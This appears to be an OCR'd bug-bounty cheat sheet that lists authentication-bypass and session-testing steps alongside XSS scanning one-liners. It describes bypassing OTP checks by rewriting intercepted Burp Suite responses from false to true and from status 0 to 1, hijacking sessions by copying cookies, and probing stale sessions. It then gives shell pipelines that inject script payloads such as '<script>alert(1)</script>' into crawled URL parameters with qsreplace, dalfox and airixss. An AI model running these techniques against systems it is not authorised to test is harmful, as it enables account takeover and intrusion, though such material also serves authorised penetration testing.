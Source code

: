 Register account with mobile number and request for OTP.
Enter incorrect OTP and capture the request in Burp Suite.
Do intercept response to this request and forward the request.
response will be {"verificationStatus":false,"mobile":9072346577","profileId":"84673832"}
Change this response to {"verificationStatus":true,"mobile":9072346577","profileId":"84673832"}
OTP Bypass Second Method

Go to login and wait for OTP pop up.
Enter incorrect OTP and capture the request in Burp Suite.
Do intercept response to this request and forward the request. response will be error
Change this response to success, And forward the response, You will be logged in to the account.
Third Method

Register 2 accounts with any 2 mobile number(first enter right otp)
Intercept your request click on action -> Do intercept -> intercept response to this request.
check what the message will display like status:1
Follow the same procedure with other account but this time enter wrong otp
Intercept response to the request, See the message like you get status:0
Change status to 1 i.e, status:1 and forward the request if you logged in means you just did an authentication bypass.
SESSION MANAGEMENT RELATED VULNERABILITIES
Session Hijacking

Create your account.
Login your account.
Use cookie editor extension in browser.
Copy all the target cookies and Logout your account.
Paste that cookie on another browser in the cookie editor extension.
Refresh page if you are logged in then this is a session hijacking.
Old Session Does Not Expire After Password Change Old Session Does Not Expire After Email change Old Session Does Not Expire After 2FA Enabled Old Session Does Not Expire After 2FA Enabled Old Session Does Not Expire After Account Delete

Create an account on the target site.
Log in to your account using two different browsers with the same account (Chrome and Firefox).
Change your password in the Chrome browser.
Refresh the Firefox browser.
If you are still logged in, then this indicates a bug.
CROSS SITE SCRIPTING VULNERABILITIES
waybackurls testphp.vulnweb.com | grep '=' | qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -sk --path-as-is "$host" | grep -qs "<script>alert(1)</script>" && echo "$host is vulnerable"; done
gospider -S live_subdomains.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee OUT.txt
waybackurls http://example.com | gf xss | sed 's/=.*/=/' | sort -u | tee XSS.txt && cat XSS.txt | dalfox file XSS.txt
echo target | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '">' | freq
cat targets | waybackurls | anew | grep "=" | gf xss | nilo | gxss -p test | dalfox pipe --skip-bav --only-poc r --silence --skip-mining-dom --ignore-return 302,404,403
waybackurls testphp.vulnweb.com | urldedupe -qs | bhedak '">' | airixss -payload "confirm(1)" | egrep -v 'Not'
echo testphp.vulnweb.com | waybackurls | gf xss | uro | qsreplace '">' | freq | egrep -v 'Not'
echo testphp.vulnweb.com | httpx -silent | hakrawler -subs | grep "=" | qsreplace '">' | airixss -payload "confirm(1)" | egrep -v 'Not'
New Way To Find Simple Cross site scripting (xss)!!!
